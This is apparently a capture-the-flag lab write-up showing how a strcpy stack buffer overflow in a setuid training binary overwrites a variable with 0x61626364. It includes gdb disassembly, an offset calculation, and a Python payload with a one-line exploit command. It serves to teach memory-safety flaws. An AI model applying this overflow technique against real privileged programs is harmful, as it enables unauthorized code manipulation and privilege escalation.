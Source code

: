 ## ex01

### Objective
The goal of this challenge is to modify a specific variable in the binary and see the message "you have correctly got the variable to the right value".

### Steps Taken

1. **Initial Analysis**:
    - First, we used `file` to determine the type of the binary and `strings` to identify useful strings within the binary.

    ```sh
    file bin
    strings bin
    ```

    **Output of `file bin`**:
    ```
    bin: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, BuildID[sha1]=05192c075e2384bc94402b41f639965cc9fb9c87, not stripped
    ```

    **Output of `strings bin`**:
    ```
    /lib/ld-linux.so.2
    __gmon_start__
    libc.so.6
    _IO_stdin_used
    strcpy
    puts
    printf
    errx
    __libc_start_main
    GLIBC_2.0
    PTRh
    QVhd
    D$\=dcbau
    [^_]
    please specify an argument
    you have correctly got the variable to the right value
    Try again, you got 0x%08x
    ```

2. **Disassembly**:
    - We used `gdb` to disassemble the binary and identify the `strcpy` function call, which is vulnerable to buffer overflow.

    ```sh
    gdb bin
    (gdb) break main
    (gdb) run
    (gdb) disassemble main
    ```

    **Disassembly of `main`**:
    ```assembly
    Dump of assembler code for function main:
       0x08048464 <+0>:     push   %ebp
       0x08048465 <+1>:     mov    %esp,%ebp
       0x08048467 <+3>:     and    $0xfffffff0,%esp
       0x0804846a <+6>:     sub    $0x60,%esp
    => 0x0804846d <+9>:     int3   
       0x0804846e <+10>:    jge    0x8048478 <main+20>
       0x08048470 <+12>:    add    %esi,0x14(%ebp)
       0x08048473 <+15>:    movl   $0x80485a0,0x4(%esp)
       0x0804847b <+23>:    movl   $0x1,(%esp)
       0x08048482 <+30>:    call   0x8048388 <errx@plt>
       0x08048487 <+35>:    movl   $0x0,0x5c(%esp)
       0x0804848f <+43>:    mov    0xc(%ebp),%eax
       0x08048492 <+46>:    add    $0x4,%eax
       0x08048495 <+49>:    mov    (%eax),%eax
       0x08048497 <+51>:    mov    %eax,0x4(%esp)
       0x0804849b <+55>:    lea    0x1c(%esp),%eax
       0x0804849f <+59>:    mov    %eax,(%esp)
       0x080484a2 <+62>:    call   0x8048368 <strcpy@plt>
       0x080484a7 <+67>:    mov    0x5c(%esp),%eax
       0x080484ab <+71>:    cmp    $0x61626364,%eax
       0x080484b0 <+76>:    jne    0x80484c0 <main+92>
       0x080484b2 <+78>:    movl   $0x80485bc,(%esp)
       0x080484b9 <+85>:    call   0x8048398 <puts@plt>
       0x080484be <+90>:    jmp    0x80484d5 <main+113>
       0x080484c0 <+92>:    mov    0x5c(%esp),%edx
       0x080484c4 <+96>:    mov    $0x80485f3,%eax
       0x080484c9 <+101>:   mov    %edx,0x4(%esp)
       0x080484cd <+105>:   mov    %eax,(%esp)
       0x080484d0 <+108>:   call   0x8048378 <printf@plt>
       0x080484d5 <+113>:   leave  
       0x080484d6 <+114>:   ret    
    End of assembler dump.
    ```

    - We identified the following key points in the disassembly:
      - The `strcpy` function is called at offset `+62` with the destination buffer located at `0x1c(%esp)` and the source string located at `0x4(%esp)`.
      - There is a comparison at offset `+71` to check if a specific value (`0x61626364`, which is ASCII for "abcd") is present in the variable located at `0x5c(%esp)`.
      - The success message is displayed if this comparison is true, as shown by the call to `puts` with the message address `0x80485bc`.

3. **Determine Buffer Size and Offset**:
    - The destination buffer for `strcpy` starts at `0x1c(%esp)`.
    - The target value to set is located at `0x5c(%esp)`.
    - The offset from the start of the buffer to the target value is `0x5c - 0x1c = 0x40` (64 bytes).

4. **Craft the Payload**:
    - We created a Python script to generate the payload that overflows the buffer and modifies the target variable.

    ```python
    import struct

    buffer_size = 64  # 0x40 in hex
    target_value = 0x61626364  # "abcd" in ASCII

    payload = b'A' * buffer_size
    payload += struct.pack("<I", target_value)

    # Print the payload
    print(payload.decode('latin-1'))
    ```

5. **Execute the Binary with the Payload**:
    - We used the following command to run the binary with the crafted payload as a command-line argument.

    ```sh
    ./bin $(python -c 'import struct; buffer_size = 64; target_value = 0x61626364; payload = b"A" * buffer_size + struct.pack("<I", target_value); print(payload.decode("latin-1"))')
    ```

### Output
- The output showed the success message, indicating that we successfully exploited the binary:
    ```
    you have correctly got the variable to the right value
    ```

### Tools Used
- `file`
- `strings`
- `gdb`
- Python

### Educational Purpose
These methods and tools are used strictly for educational purposes to understand and protect against similar vulnerabilities. 

### Script
Include the Python script used to generate the payload:

```python
import struct


buffer_size = 64  # 0x40 in hex
target_value = 0x61626364  # "abcd" in ASCII

payload = b'A' * buffer_size
payload += struct.pack("<I", target_value)

# Print the payload
print(payload.decode('latin-1'))
```